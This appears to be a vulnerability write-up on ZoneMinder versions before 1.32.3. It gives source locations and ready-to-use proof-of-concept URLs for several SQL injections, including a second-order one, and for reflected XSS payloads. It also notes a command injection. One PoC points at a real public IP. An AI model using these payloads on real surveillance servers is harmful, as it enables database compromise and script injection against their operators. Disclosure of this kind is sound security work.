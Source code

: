 ﻿# zoneminder vul before v1.32.3

标签（空格分隔）： 0day

---

The following vulnerability information comes from the zoneminder release version is probably 1.32.0, the code structure has changed in 1.32.3, some of the code has changed, but the following vulnerabilities have not been fixed, need to find in 1.32.3 Corresponding code location and not absolutely the following description location


# skins/classic/views/events.php line 44 sql injection

```
skins/classic/views/events.php line 44
```

![image.png-227.7kB][1]

```
parameter $_REQUEST['filter'] from function parseFilter

includes/functions.php line 1401 parameter sql come from $filter['terms'][$i]['cnj'] or $filter['terms'][$i]['obr']

in 1.32.3,This part of the variable is changed to $terms[$i]['cnj'] and the terms are from $filter['Query']['terms'] in line 1035
```
![image.png-98.7kB][3]

in the above figure parameter countSql or eventsSql can be injected

poc in 1.32.3
```
index.php?view=events&page=1&filter[Query][terms][0][attr]=MonitorId&filter[Query][terms][0][op]=%3D&filter[Query][terms][0][val]=1&filter[Query][terms][0][cnj]=1%2b1)and%20sleep(3)%23
```

The following information is the same, you need to adapt the corresponding version.

# sql query error Reflected xss

when sql query error, sql error and message will be displayed without any validated, sanitised or output encoded.

```
includes/database.php line 120
```
![image.png-112.8kB][4]

if sql query without any validated, sanitised or output encoded and can be modifyed, it will lead to xss vulnerability.

```
https://95.143.216.108/zm/index.php?view=events&page=1&filter[terms][0][attr]=MonitorId&filter[terms][0][op]=%3D&filter[terms][0][val]=1&filter[terms][0][cnj]=1432%3Cimg/src=/%20onerror=alert`1`%3E
```
![image.png-133.7kB][5]

# skins/classic/views/control.php line 35 second order sqli

control.php line 35 

parameter `$groupSql` is detected from the database and directly spliced into the sql query statement.

![image.png-143.7kB][6]

from `includes/action.php line 748 $monitors` insert into database

![image.png-273.6kB][7]

first insert evil statement into database and select it to sql injection

poc
```
Step1:
index.php?action=group

newGroup[MonitorIds][]=1&newGroup[MonitorIds][]=2') or sleep(3)#&newGroup[Name]=132

Step2:
http://127.0.0.1/zoneminder/www/?view=control&mid=1&group={groupid}
```

# skins/classic/views/controlcap.php Reflected xss

Most of the variables below controlcap.php are not filtered. This variable is passed directly from the mid.

![image.png-508.9kB][8]

poc
```
?view=controlcap&newControl[MinTiltRange]=2333%22/%3E%3Cimg/src=/%20onerror=alert(1)%3E
```

# includes/functions.php daemonControl command injection

![image.png-92.9kB][9]

# ajax/status.php line 276 orderby sql injection

![image.png-157.5kB][10]

poc
```
http://127.0.0.1/zoneminder/www/?request=status&entity=monitor&element=id&id=1&sort=123
```

# ajax/status.php line 393 sql injection

there is two sql injection in `ajax/status.php line 393 and line 406`

![image.png-355.7kB][11]

```
includes/functions.php line 1401 parameter sql come from $filter['terms'][$i]['cnj'] or $filter['terms'][$i]['obr']
```
![image.png-98.7kB][3]
```
index.php?request=status&entity=nearevents&element=id&id=13&layout=text&filter[Query][terms][0][cnj]=233)%20||1=1%23
```


  [1]: http://static.zybuluo.com/LoRexxar/ufoe8ar8rbq8nh505anfeiai/image.png
  [2]: http://static.zybuluo.com/LoRexxar/7ikqrdkra6d0rlau66nrctco/image.png
  [3]: http://static.zybuluo.com/LoRexxar/l8hgggewmbgowwxni3bdtffb/image.png
  [4]: http://static.zybuluo.com/LoRexxar/ignq5yfbbpblxz0wbak2uopc/image.png
  [5]: http://static.zybuluo.com/LoRexxar/uot1uzz7w8dqh10ucvs2u1ou/image.png
  [6]: http://static.zybuluo.com/LoRexxar/jgjix7qr8cmsrvfme8qpk57z/image.png
  [7]: http://static.zybuluo.com/LoRexxar/opgka8vbesefdh664yjfvr9n/image.png
  [8]: http://static.zybuluo.com/LoRexxar/4ra29cgr35a6tr4zarudua48/image.png
  [9]: http://static.zybuluo.com/LoRexxar/6bcj24neh6rubbyx547n25ps/image.png
  [10]: http://static.zybuluo.com/LoRexxar/gvvxxgmkk5g1bn425tva31tz/image.png
  [11]: http://static.zybuluo.com/LoRexxar/luo7z0r5w7r8ddi3rsro8gar/image.png
  [12]: http://static.zybuluo.com/LoRexxar/7ikqrdkra6d0rlau66nrctco/image.png